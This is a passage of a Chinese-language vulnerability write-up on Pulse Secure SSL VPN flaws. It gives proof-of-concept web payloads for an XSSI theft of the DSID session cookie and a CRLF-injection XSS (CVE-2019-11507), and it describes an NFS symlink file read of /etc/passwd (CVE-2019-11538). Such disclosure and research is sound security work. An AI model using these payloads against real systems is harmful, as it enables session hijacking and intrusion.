 我们可以执行XSSI攻击来窃取DSID cookie！

更糟糕的是，Pulse Secure SSL VPN中的CSRF保护基于DSID。有了这个XSSI，我们可以绕过所有的CSRF保护！

PoC如下：

```
&lt;!-- http://attacker/malicious.html --&gt;

&lt;script src="https://sslvpn/dana/cs/cs.cgi?action=appletobj"&gt;&lt;/script&gt;
&lt;script&gt;
    window.onload = function() `{`
        window.document.writeln = function (msg) `{`
            if (msg.indexOf("DSID") &gt;= 0) alert(msg)
        `}`
        ReplaceContent()
    `}`
&lt;/script&gt;
```

### <a class="reference-link" name="2.CVE-2019-11507%EF%BC%9A%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB"></a>2.CVE-2019-11507：跨站脚本攻击

有一个CRLF注入

```
/dana/home/cts_get_ica.cgi
```

由于这个注入漏洞，我们可以伪造任意HTTP头并注入恶意HTML内容。

PoC如下：

```
https://sslvpn/dana/home/cts_get_ica.cgi
?bm_id=x
&amp;vdi=1
&amp;appname=aa%0d%0aContent-Type::text/html%0d%0aContent-Disposition::inline%0d%0aaa:bb&lt;svg/onload=alert(document.domain)&gt;
```

### <a class="reference-link" name="3.CVE-2019-11538%EF%BC%9A%E9%80%9A%E8%BF%87NFS%E8%BF%9B%E8%A1%8C%E6%8E%88%E6%9D%83%E5%90%8E%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96"></a>3.CVE-2019-11538：通过NFS进行授权后任意文件读取

以下两个漏洞（CVE-2019-11538和CVE-2019-11508）不会影响默认配置。仅当管理员为VPN用户配置NFS共享时才会出现。

如果攻击者可以控制远程NFS服务器上的任何文件，他只需创建指向任何文件的符号链接，例如

```
/etc/passwd
```

并从Web界面读取它，漏洞根本原因是NFS的实现将远程服务器挂载为真正的Linux目录，并且脚本

```
/dana/fb/nfs/nfb.cgi
```
